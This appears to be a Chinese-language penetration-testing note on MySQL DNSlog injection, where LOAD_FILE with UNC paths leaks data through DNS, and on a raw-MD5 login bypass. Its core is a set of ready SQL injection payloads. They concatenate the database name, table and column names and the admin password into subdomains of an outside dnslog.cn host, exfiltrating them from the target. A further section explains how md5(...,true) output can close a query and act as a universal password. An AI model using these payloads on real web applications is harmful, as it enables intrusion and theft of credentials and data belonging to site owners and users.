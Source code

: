 ### DNS注入

##### 原理

通过子查询，将内容拼接到域名内，让load_file()去访问共享文件，访问的域名被记录此时变为显错注入,将盲注变显错注入,读取远程共享文件，通过拼接出函数做查询,拼接到域名中，访问时将访问服务器，记录后查看日志。

在无法直接利用的情况下，但是可以通过DNS请求,通过DNSlog，把数据外带，用DNS解析记录查看。

##### LOAD_FILE() 读取文件的函数

> 读取文件并返回文件内容为字符串。

> 要使用此函数，文件必须位于服务器主机上，必须指定完整路径的文件，而且必须有FILE权限。该文件所有字节可读，但文件内容必须小于max_allowed_packet（限制server接受的数据包大小函数，默认1MB）。 如果该文件不存在或无法读取，因为前面的条件之一不满足，函数返回 NULL。

**注：这个功能不是默认开启的，需要在mysql配置文件加一句 secure_file_priv=**

##### DNSLOG平台:

> https://dns.xn--9tr.com/
>
> https://log.xn--9tr.com/

##### UNC路径

> UNC路径通用命名规则，也称通用命名规范、通用命名约定，类似\softer这样的形式的网络路径。

UNC路径的 **格式** ：**\server\sharename\directory\filename**

等同于**SELECT LOAD_FILE('//库名.1806dl.dnslog.cn/abc'**

去访问 库名.1806dl.dnslog.cn 的服务器下的共享文件夹abc。

然后1806dl.dnslog.cn的子域名的解析都是在某台服务器，然后他记录下来了有人请求访问了error.1806dl.dnslog.cn，然后在DnsLog这个平台上面显示出来了

payload示例

```sql
?id=1 and load_file(concat('//', database(),'.htleyd.dnslog.cn/abc'))
?id=1 and load_file(concat('//', (select table_name from information_schema.tables where table_schema=database() limit 0,1 ),'.htleyd.dnslog.cn/abc'))
?id=1 and load_file(concat('//',(select column_name from information_schema.columns where table_name=’admin’ and table_schema=database() limit 2,1),'.htleyd.dnslog.cn/abc'))
?id=1 and load_file(concat('//',(select password from admin limit 0,1),'.htleyd.dnslog.cn/abc'))
```

#### '".md5($pass,true)."' 登录绕过

很多站点为了安全都会利用这样的语句：

```sql
SELECT * FROM users WHERE password = '.md5($password,true).';
```

`md5(string,true)` 函数在指定了true的时候，是返回的原始 16 字符二进制格式，也就是说会返回这样子的字符串：`'or'6\xc9]\x99\xe9!r,\xf9\xedb\x1c`：

这不是普通的二进制字符串，而是 `'or'6\xc9]\x99\xe9!r,\xf9\xedb\x1c` 这种，这样的话就会和前面的形成闭合，构成万能密码。
